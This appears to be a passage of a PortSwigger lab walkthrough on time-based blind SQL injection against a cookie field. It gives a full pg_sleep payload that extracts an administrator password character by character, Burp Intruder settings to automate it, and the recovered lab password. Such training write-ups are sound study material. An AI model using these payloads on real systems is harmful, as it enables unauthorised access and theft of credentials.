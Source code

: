 ```SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''```
Payload - Numbers (1 to 50 with step 1)
Add an extra column called Response Received to show the response time of each request.

At a payload 20 , the delay of response does not happen, means the length of password is 20 characters

<img width="1408" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/4634201d-224e-4399-b571-bf1c7cbe6dd3">

<img width="1201" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/ace58934-05c7-4944-a1ca-672494e5de4c">

Bruteforce the admin's password -
To bruteforce the password, we use a payload where we take first letter of the password and try to match it with all alphabets and numbers. If it matches then we get a 10 sec delay.

```TrackingId=x'%3BSELECT+CASE+WHEN (username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--```

Automate this

Add the part which replaces the first character (
,1) as payload 1.
Add the character to be matched against ('a') as payload 2.
Attack type - Cluster Bomb
Payload 1 - Numbers (1 to20 with step 1)
Payload 2 - Bruteforcer (min & max length as 1)
Once we get the result, we can segregate the result and get the password like before, since we can't arrange both response received and payload1 together.

So,

Highlight the requests which has 10 sec delay.

<img width="935" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/53e2e754-9aa5-466e-b7e0-69aec04329db">

We get the password of admin as - 4tl4obimn56dxoo3xqb8



<img width="1426" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/377eb599-7dec-4c5d-81e6-3cfeec262082">
